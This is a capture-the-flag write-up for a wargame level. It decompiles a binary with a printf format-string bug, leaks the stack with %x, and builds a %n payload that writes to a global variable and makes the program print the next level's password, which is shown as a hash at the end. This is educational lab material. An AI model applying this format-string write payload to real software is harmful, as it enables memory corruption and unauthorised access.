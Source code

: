 - Let's see how looks ./level4 :

```C
void p(char *param_1)
{
    printf(param_1);
    return;
}

void n(void)
{
    char local_20c [520];
    
    fgets(local_20c,0x200,stdin);
    p(local_20c);
    if (m == 0x1025544) {
        system("/bin/cat /home/user/level5/.pass");
    }
    return;
}

void main(void)
{
    n();
    return;
}
```

- it's exactly the same process that the level before but instead of overwritting m with 0x40 we have to overwrite it with 0x1025544 (= 16930116)



- Let's leak the stack:

```bash
python3 ./level4
AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
AAAA f7fa2f94 ff8984d0 f7f67000 ff898564 f7fc6b80 ff898498 804848d ff898290 200 f7f67620 380 41414141 20782520 25207825 78252078 20782520 25207825 78252078 20782520

Our buffer is at the 12th position on the stack
```


- Let's write a payload like the level before:
```
Address of m = 0x08049810

payload: "\x10\x98\x04\x08" + (16930116 - 4)*"A" + "%12$n"

```

- We see that this payload does not work because the value 16930116 - 4 is too large. here is the trick:

```
payload: "\x10\x98\x04\x08" + "%16930112d%12$n"
```

%16930112d tells printf to actually print 16930112 characters.
While "A"*16930112 is a string passed into printf -> the payload being really large it does not work properly.


```bash
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```